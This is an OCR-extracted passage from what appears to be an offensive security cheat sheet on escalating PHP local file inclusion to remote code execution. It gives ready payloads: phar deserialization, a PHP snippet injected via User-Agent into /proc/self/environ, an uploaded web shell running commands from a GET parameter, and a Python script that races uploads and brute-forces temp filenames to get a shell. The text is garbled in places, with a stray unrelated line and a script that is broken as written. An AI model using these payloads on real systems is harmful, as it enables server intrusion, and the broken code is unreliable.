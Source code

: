```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## LFI to RCE via upload (race)
Worlds Quitest Let's Play"
* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
```